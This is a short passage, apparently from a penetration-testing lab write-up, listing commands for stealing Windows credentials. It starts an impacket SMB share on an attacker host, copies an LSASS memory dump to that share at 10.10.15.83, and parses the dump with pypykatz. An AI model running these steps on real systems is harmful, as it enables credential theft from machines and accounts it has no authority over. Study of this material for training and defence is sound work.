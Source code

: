     * sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/zihuatanejo

    <figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



    * `move lsass.dmp \\10.10.15.83\CompData`

    <figure><img src=".gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



    * Check in linux terminal -> ls
* `pypykatz lsa minidump /home/zihuatanejo/lsass.DMP`
